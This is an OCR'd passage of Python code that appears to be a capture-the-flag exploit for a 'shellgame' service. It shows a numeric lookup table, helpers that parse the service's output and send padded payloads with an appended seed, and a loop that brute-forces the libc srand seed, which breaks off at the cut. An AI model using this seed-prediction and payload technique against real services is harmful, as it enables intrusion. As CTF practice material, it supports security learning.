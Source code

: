 ```python
87:[128, [87, 120, 54]],
88:[209, [88, 227, 238]],
89:[668, [89, 220, 45]],
90:[763, [90, 211, 242]],
91:[246, [91, 172, 68]],
92:[202, [92, 186, 121]],
93:[130, [93, 112, 247]],
94:[117, [94, 87, 37]],
95:[318, [95, 179, 69]],
96:[194, [96, 253, 46]],
97:[65, [97, 56, 165]],
98:[122, [98, 187, 214]],
99:[796, [99, 244, 148]],
100:[108, [100, 38, 195]],
101:[655, [101, 81, 148]],
102:[403, [102, 214, 10]],
103:[0, [103, 105, 198]],
104:[38, [104, 252, 132]],
105:[58, [105, 153, 227]],
106:[183, [106, 159, 76]],
107:[242, [107, 253, 36]],
108:[138, [108, 17, 14]],
109:[41, [109, 76, 178]],
110:[521, [110, 221, 147]],
111:[10, [111, 38, 152]],
112:[78, [112, 77, 228]],
113:[88, [113, 197, 7]],
114:[467, [114, 2, 30]],
115:[28, [115, 8, 9]],
116:[361, [116, 151, 114]],
117:[695, [117, 215, 25]],
118:[74, [118, 130, 199]],
119:[29, [119, 164, 79]],
120:[8, [120, 34, 152]],
121:[106, [121, 126, 255]],
122:[314, [122, 92, 234]],
123:[148, [123, 130, 24]],
124:[16, [124, 137, 253]],
125:[186, [125, 110, 211]],
126:[566, [126, 128, 206]],
127:[286, [127, 232, 146]],
}

def get_gift():
    p.recvuntil(b'Welcome to the shellgame! Your lucky number is:\n')
    init = p.recvline().decode().split(' ')
    gift = defaultdict(int)
    for i in init[:-1]:
        k = i.split(':')
        gift[int(k[0])]=int(k[1])
    return gift

def send_number(payload: bytes, seed: int = None):
    if seed is not None:
        payload = payload.ljust(0x10, b'\x00') + seed.to_bytes(4, 'little')
    print(payload)
    p.send(payload)

def get_seed(gift) -> int:
    for i in range(255):
        k = list(gift.values())
        libc.srand(i)
        for j in range(10):
```